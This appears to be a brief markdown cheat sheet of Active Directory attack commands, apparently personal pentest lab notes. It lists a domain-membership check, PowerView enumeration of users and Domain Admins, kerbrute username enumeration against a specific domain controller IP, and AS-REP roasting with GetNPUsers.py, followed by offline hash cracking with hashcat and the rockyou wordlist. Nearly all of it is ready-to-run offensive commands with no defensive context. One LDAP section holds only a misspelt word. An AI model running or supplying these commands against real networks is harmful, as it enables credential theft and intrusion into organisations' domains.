 ### Check if domain joined
```
systeminfo | findstr /B /C:"Domain"
# If it returns a domain name, the machine is domain-joined.
# If it returns WORKGROUP, it's not part of a domain.
```


### Powerview
```
# Users
Get-NetUser | select samaccountname
Get-NetUser | select samaccountname, memberof, serviceprincipalname
# DC IP
Get-NetDomainController -Domain domain.com

# Who is domain admin
Get-DomainGroupMember "Domain Admins" -Recurse

# You can use CME to get hostname <-> IP 
```

### Kerberos User enumeration
```
test if user names are validate:
kerbrute userenum -d relia.com --dc 172.16.143.6 users.txt 
```

###  LDAP Enumeration
```
ldapseasrch
```



### AS-REP Roasting (NO Pre-Auth)
> Crack with hashcat a.hash /usr/share/wordlists/rockyou.txt -m 18200
```
GetNPUsers.py relia.com/ -usersfile users.txt -no-pass -dc-ip 172.16.143.6
```
